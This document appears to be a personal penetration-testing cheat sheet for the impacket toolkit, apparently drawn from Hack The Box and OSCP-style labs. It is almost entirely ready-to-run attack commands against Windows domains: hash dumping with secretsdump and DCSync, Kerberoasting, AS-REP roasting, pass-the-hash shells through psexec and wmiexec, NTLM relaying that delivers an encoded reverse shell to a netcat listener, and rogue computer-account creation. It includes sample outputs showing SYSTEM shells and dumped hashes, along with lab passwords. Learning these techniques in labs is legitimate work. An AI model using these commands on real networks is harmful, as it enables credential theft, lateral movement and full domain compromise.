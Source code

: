 # impacket
- <https://github.com/fortra/impacket>

Impacket is a collection of Python classes for working with network protocols.

Focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself.








```bash
impacket-smbclient.py [domain]/[user]:[password/password hash]@[Target IP Address] # we connect to the server rather than a share

impacket-lookupsid.py [domain]/[user]:[password/password hash]@[Target IP Address] # User enumeration on target

impacket-services.py [domain]/[user]:[Password/Password Hash]@[Target IP Address] [Action] # service enumeration


impacket-secretsdump.py [domain]/[user]:[password/password hash]@[Target IP Address]  # Dumping hashes on target



impacket-GetUserSPNs.py [domain]/[user]:[password/password hash]@[Target IP Address] -dc-ip <IP> -request  # Kerberoasting, and request option dumps TGS
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.10.10.100 -request
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request



impacket-GetNPUsers.py test.local/ -dc-ip <IP> -usersfile usernames.txt -format hashcat -outputfile hashes.txt #Asreproasting, need to provide usernames list







##RCE
impacket-psexec.py test.local/john:password123@10.10.10.1
impacket-psexec.py -hashes lmhash:nthash test.local/john@10.10.10.1
impacket-wmiexec.py test.local/john:password123@10.10.10.1
impacket-wmiexec.py -hashes lmhash:nthash test.local/john@10.10.10.1
impacket-smbexec.py test.local/john:password123@10.10.10.1
impacket-smbexec.py -hashes lmhash:nthash test.local/john@10.10.10.1
impacket-atexec.py test.local/john:password123@10.10.10.1 <command>
impacket-atexec.py -hashes lmhash:nthash test.local/john@10.10.10.1 <command>

```
























## PtH

```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b 
Administrator@192.168.50.212


C:\Windows\system32> whoami
nt authority\system
```

```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212


C:\>whoami
files02\administrator
```


We can also use one of the other impacket scripts like `wmiexec.py` to obtain a shell 
as the user we used for authentication. On Kali, we would use `impacket-wmiexec` 
along with the arguments we used for `impacket-psexec`.

## wmiexec
```
impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"


# Impacket's wmiexec.py can be used to get a shell
impacket-wmiexec [DOMAIN]/[USERNAME]:[PASSWORD]@[IP]
impacket-wmiexec active.htb/administrator:Ticketmaster1968@10.129.208.12
```







## Relaying Net-NTLMv2

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc [ENCODED REVERSER POWERSHELL]
```


And on the ATTACKER MACHINE start a `nc` listener on the port the reverse shell is pointing at.










##  SPN
SPNs that are running under a user account:

```
impacket-GetUserSPNs enterprise.com/[username]:'[password]' -dc-ip [IP] -request ???

impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.10.10.100 -request

GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
```








## AS-REP Roasting

```
# Just list users with "Do not require Kerberos preauthentication" enabled

impacket-GetNPUsers [DOMAIN/[USERNAME (opt):PASSWORD (opt)]] -dc-ip [DOMAIN CONTROLLER IP]

impacket-GetNPUsers -dc-ip [DOMAIN CONTROLLER IP] corp.com/pete



# get the hash
impacket-GetNPUsers -dc-ip [DOMAIN CONTROLLER IP] -request -outputfile [OUTPUT FILE NAME] corp.com/pete
```

This will show the user account option "Do not require Kerberos preauthentication" enabled, meaning it's vulnerable to AS-REP Roasting.





## Kerberoasting

Use `impacket-GetUserSPNs` with the IP of the domain controller as the argument for `-dc-ip`.

Since our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash.

As before, we can use `-request` to obtain the TGS and output them in a compatible format for Hashcat.


```
sudo impacket-GetUserSPNs htb.local/asmith:passw0rd
sudo impacket-GetUserSPNs htb.local/asmith:passw0rd -request

sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

NOTE: if `impacket-GetUserSPNs` throws the error "KRB_AP_ERR_SKEW(Clock skew too great)" we need to synchronize the time of the Kali machine with the domain controller with `ntpdate` or `rdate`.





## dcsync

impacket-secretsdump on our non-domain joined Kali machine

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

impacket-secretsdump -just-dc-user krbtgt corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.166.70


# Output
...
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
# This is the hash: 08d7a47a6f9f66b97b1bae4178747494
...
```












## MSSQL
```
impacket-mssqlclient ARCHETYPE/sql_svc@${ip} -windows-auth

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```




## PSExec
```
impacket-psexec administrator@${ip}
python3 psexec.py administrator@{TARGET_IP}
```







## add computer
```
impacket-addcomputer '[DOMAIN]/[USERNAME]' -method [METHOD] -computer-name '[NEW COMPUTER_NAME]' -computer-pass '[NEW COMPUTER_PASSWORD]' -dc-ip [DC_IP_ADDRESS]


impacket-addcomputer 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL01' -computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.10.11.222

```

















